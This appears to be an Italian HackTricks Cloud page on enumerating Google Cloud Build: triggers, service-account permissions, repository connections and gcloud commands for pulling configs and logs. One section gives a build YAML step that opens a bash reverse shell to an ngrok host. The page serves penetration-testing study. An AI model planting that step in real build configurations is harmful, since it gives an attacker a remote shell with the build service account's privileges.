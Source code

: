 # GCP - Enumerazione di Cloud Build

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team di HackTricks AWS)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>

## Informazioni di Base

Google Cloud Build è una piattaforma CI/CD gestita che **automatizza la compilazione del software** e i processi di rilascio, integrandosi con i **repository del codice sorgente** e supportando una vasta gamma di linguaggi di programmazione. **Permette agli sviluppatori di compilare, testare e distribuire automaticamente il codice** fornendo flessibilità per personalizzare i passaggi di compilazione e i flussi di lavoro.

Ogni Trigger di Cloud Build è **collegato a un Repository Cloud o direttamente con un repository esterno** (Github, Bitbucket e Gitlab).

{% hint style="success" %}
Non ho visto alcun modo per rubare il token di Github/Bitbucket da qui o dai Cloud Repositories perché quando il repository viene scaricato viene accessibile tramite un URL [https://source.cloud.google.com/](https://source.cloud.google.com/) e Github non è accessibile dal client.
{% endhint %}

### Eventi

Il Cloud Build può essere attivato se:

* **Push su un branch**: Specificare il branch
* **Push di un nuovo tag**: Specificare il tag
* **Pull request**: Specificare il branch che riceve la PR
* **Invocazione manuale**
* **Messaggio Pub/Sub**: Specificare l'argomento
* **Evento Webhook**: Esporrà un URL HTTPS e la richiesta deve essere autenticata con un segreto

### Esecuzione

Ci sono 3 opzioni:

* Un file yaml/json **specificando i comandi** da eseguire. Di solito: `/cloudbuild.yaml`
* Solo uno che può essere specificato "in linea" nella console web e nella cli
* Opzione più comune
* Rilevante per l'accesso non autenticato
* Un **Dockerfile** da compilare
* Un **Buildpack** da compilare

### Autorizzazioni SA

Il **Service Account ha lo scope `cloud-platform`**, quindi può **utilizzare tutti i privilegi.** Se **nessun SA è specificato** (come quando si esegue la submit) verrà utilizzato il **SA predefinito** `<proj-number>@cloudbuild.gserviceaccount.com`.

Di default non vengono date autorizzazioni ma è abbastanza facile darne alcune:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Approvazioni

È possibile configurare un Cloud Build per **richiedere approvazioni per le esecuzioni delle build** (disabilitato per impostazione predefinita).

### Connessioni e Repository

Le connessioni possono essere create su:

* **GitHub:** Visualizzerà un prompt OAuth chiedendo le autorizzazioni per **ottenere un token Github** che verrà memorizzato all'interno del **Secret Manager.**
* **GitHub Enterprise:** Chiederà di installare un **GithubApp**. Verrà creato e memorizzato in questo progetto un **token di autenticazione** dal tuo host GitHub Enterprise come segreto del **Secret Manager.**
* **GitLab / Enterprise:** È necessario **fornire il token di accesso API e il token di accesso API di lettura** che verranno memorizzati nel **Secret Manager.**

Una volta generata una connessione, è possibile utilizzarla per **collegare i repository a cui l'account Github ha accesso**.

Questa opzione è disponibile tramite il pulsante:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Nota che i repository collegati con questo metodo sono **disponibili solo nei Triggers che utilizzano la 2a generazione.**
{% endhint %}

### Collega un Repository

Questo non è lo stesso di una **`connessione`**. Questo consente **diversi** modi per ottenere **accesso a un repository Github o Bitbucket** ma **non genera un oggetto di connessione, ma genera un oggetto repository (di 1a generazione).**

Questa opzione è disponibile tramite il pulsante:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Archiviazione

A volte Cloud Build **genererà un nuovo archivio per memorizzare i file per il trigger**. Questo accade ad esempio nell'esempio che GCP offre con:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Un bucket di archiviazione chiamato [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) è stato creato per memorizzare un file `.tgz` con i file da utilizzare.

### Ottieni shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Enumerazione

Potresti trovare **informazioni sensibili nelle configurazioni di build e nei log**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Escalazione dei privilegi

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Accesso non autenticato

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post Esploitation

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}
